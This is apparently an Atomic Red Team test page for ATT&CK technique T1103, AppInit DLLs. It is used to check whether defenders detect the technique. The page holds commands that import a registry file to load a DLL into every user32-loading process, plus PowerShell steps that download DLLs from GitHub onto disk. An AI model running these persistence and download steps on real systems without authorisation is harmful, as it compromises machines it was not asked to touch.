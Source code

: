# T1103 - AppInit DLLs
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1103)
<blockquote>Dynamic-link libraries (DLLs) that are specified in the AppInit_DLLs value in the Registry keys <code>HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Windows</code> or <code>HKEY_LOCAL_MACHINE\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Windows</code> are loaded by user32.dll into every process that loads user32.dll. In practice this is nearly every program, since user32.dll is a very common library. (Citation: Endgame Process Injection July 2017) Similar to [Process Injection](https://attack.mitre.org/techniques/T1055), these values can be abused to obtain persistence and privilege escalation by causing a malicious DLL to be loaded and run in the context of separate processes on the computer. (Citation: AppInit Registry)

The AppInit DLL functionality is disabled in Windows 8 and later versions when secure boot is enabled. (Citation: AppInit Secure Boot)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Install AppInit Shim](#atomic-test-1---install-appinit-shim)


<br/>

## Atomic Test #1 - Install AppInit Shim
AppInit_DLLs is a mechanism that allows an arbitrary list of DLLs to be loaded into each user mode process on the system. Upon succesfully execution, 
you will see the message "The operation completed successfully." Each time the DLL is loaded, you will see a message box with a message of "Install AppInit Shim DLL was called!" appear.
This will happen regular as your computer starts up various applications and may in fact drive you crazy. A reliable way to make the message box appear and verify the 
AppInit Dlls are loading is to start the notepad application. Be sure to run the cleanup commands afterwards so you don't keep getting message boxes showing up.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| registry_file | Windows Registry File | Path | PathToAtomicsFolder&#92;T1103&#92;src&#92;T1103.reg|
| registry_cleanup_file | Windows Registry File | Path | PathToAtomicsFolder&#92;T1103&#92;src&#92;T1103-cleanup.reg|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg.exe import #{registry_file}
```

#### Cleanup Commands:
```cmd
reg.exe import #{registry_cleanup_file}
```



#### Dependencies:  Run with `powershell`!
##### Description: Reg files must exist on disk at specified locations (#{registry_file} and #{registry_cleanup_file})
##### Check Prereq Commands:
```powershell
if ((Test-Path #{registry_file}) -and (Test-Path #{registry_cleanup_file})) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{registry_file}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1103/src/T1103.reg" -OutFile "#{registry_file}"
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1103/src/T1103-cleanup.reg" -OutFile "#{registry_cleanup_file}"
```
##### Description: DLL's must exist in the C:\Tools directory (T1103.dll and T1103x86.dll)
##### Check Prereq Commands:
```powershell
if ((Test-Path c:\Tools\T1103.dll) -and (Test-Path c:\Tools\T1103x86.dll)) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory C:\Tools -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1103/bin/T1103.dll" -OutFile C:\Tools\T1103.dll
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1103/bin/T1103x86.dll" -OutFile C:\Tools\T1103x86.dll
```




<br/>

